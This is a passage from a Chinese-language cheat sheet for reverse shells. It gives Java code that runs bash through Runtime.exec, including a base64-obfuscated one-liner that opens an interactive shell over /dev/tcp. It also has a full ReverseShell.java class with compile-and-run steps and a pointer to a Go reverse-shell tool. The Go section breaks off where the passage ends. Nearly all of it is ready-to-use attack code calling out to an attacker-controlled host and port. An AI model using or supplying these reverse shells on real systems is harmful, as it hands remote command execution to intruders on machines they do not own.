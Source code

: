 ## java

base64写法：

```
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}");
```

```
Runtime r = Runtime.getRuntime();
Process p = r.exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/[host]/[port];cat <&5 | while read line; do $line 2>&5 >&5; done"});
p.waitFor();
```

**完整过程：**

- 编辑ReverseShell.java

  ```java
  public class ReverseShell {
      /**
      * @param args
      * @throws Exception 
      */
  public static void main(String[] args) throws Exception {
          // TODO Auto-generated method stub
          Runtime r = Runtime.getRuntime();
          String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/[host]/[port];cat <&5 | while read line; do $line 2>&5 >&5; done"};
          Process p = r.exec(cmd);
          p.waitFor();
      }
  }
  ```

- 编译执行

  ```
  javac ReverseShell,java
  java ReverseShell
  ```

- 得到shell

## go

```
有个工具：https://github.com/TheKingOfDuck/ReverseGoShell/
使用说明：https://blog.thekingofduck.com/post/ReverseGoShell/
```

脚本执行：

- 编写脚本

